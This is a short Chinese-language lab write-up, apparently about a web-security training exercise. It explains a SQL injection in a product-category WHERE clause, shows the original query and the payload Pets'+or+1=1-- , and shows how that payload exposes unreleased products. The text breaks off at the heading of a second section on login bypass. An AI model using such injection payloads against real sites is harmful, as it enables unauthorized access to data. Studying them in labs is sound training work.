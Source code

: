 ## 1、where子句中的sql注入漏洞允许检索隐藏数据

给的提示：

![image-20250327214319103](assets/image-20250327214319103.png)

当选择一个商品类别，抓包显示：

![image-20250327214615189](assets/image-20250327214615189.png)

他执行的语句是：select * from products where category = 'Pets' and released = 1

所以我们可以构造payload：

Pets'+or+1=1-- 

拼接完就是：

select * from products where category = 'Pets'+or+1=1-- and released = 1

![image-20250327214957717](assets/image-20250327214957717.png)

这样就查出了没有发布的商品



## 2、允许绕过登录的 SQL 注入漏洞